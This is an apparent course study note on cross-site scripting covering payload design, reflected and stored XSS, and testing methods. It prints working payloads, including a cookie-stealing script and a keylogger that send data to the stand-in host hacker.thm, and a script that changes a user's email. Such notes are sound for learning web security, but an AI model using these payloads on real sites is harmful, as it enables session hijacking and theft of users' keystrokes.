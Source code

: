 # Cross-Site Scripting (XSS)

- XSS is based on js
- XSS is an injection attack where js gets injected into a web application with the intention of being executed by other users

## XSS Payloads
- The payload is the js code we want to be executed on the target's computer
- 2 parts:
    - Intention - what you want the js to do
    - Modification - the changes we need to make to make it execute in different situations
- Proof of concept
    - One of the simplest payloads to demonstrate that you can achieve XSS on a website: `<script>alert('XSS');</script>`
- Session Stealing
    - Details of a user's session are kept in cookies
    - This js takes the target's cookie, encodes it in base64, and posts it to a hacker's website: `<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>`
- Key Logger
    - Keylogger - anything typed on the webpage will be forwarded to a website under the hacker's control: `<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>`
- Business Logic
    - Much more specific that other payloads
    - This calls on a particular network resource or js function
    - Ex. Change a user's email address: `<script>user.changeEmail('attacker@hacker.thm');</script>`
- Exercise
    - document.cookie
    - alert

## Reflected XSS
- Reflected XSS occurs when user-supplied data in an HTTP request is included in the webpage source without any validation
- Ex.
    - When incorrect input is entered, an error message is displayed. The content of the error message is taken from the error parameter and added directly to the page source
        - ![Reflected 1](Images/Reflected1.png)
    - The input of the error parameter isn't sanitized, which allows the attacker to insert malicious code
        - ![Reflected 2](Images/Reflected2.png)
    - The vulnerability can be used
        - ![Reflected 3](Images/Reflected3.png)
- Potential impact
    - Attacker could send links or embed them into a website containing a js payload to victims and reveal sensitive information
- How to test for reflected xss
    - Parameters in the URL query string
    - URL file path
    - HTTP Headers
- Once you've found data that is being reflected in the web application, confirm that you can successfully run your js payload; your payload will be dependent on where in the application your code is reflected
- Exercise
    - parameters

## Stored XSS
- XSS payload stored on the web application (like in a database) that gets run when other users visit the site or web page
- Ex.
    - A blog allows users to post comments, but they're not checked to see if they contain js or filter out malicious code. If a user posts a comment containing js, the code will be stored in the database, and every user visiting the article will have the js run on their browser
    - ![Stored 1](Images/Stored1.png)
- Potential impact
    - The malicious js could redirect users to another site, steak the user's cookie, or perform other web actions while acting as the visiting user
- How to test for stored xss
    - Test every possible point of entry where it seems data is stored and then shown back in areas that other users have access to
        - Comments on a blog
        - User profile information
        - Website listings
- Sometimes devs think limiting input values on the client side is good enough protection, so changing values to something the web application wouldn't be expecting is a good source of discovering stored XSS
    - Ex. An age field that is expecting an integer from a dropdown menu, but instead you manually send the request rather than using the form allowing you to try malicious payloads
- Once you've found data that is being reflected in the web application, confirm that you can successfully run your js payload; your payload will be dependent on where in the application your code is reflected
- Exercise
    - database
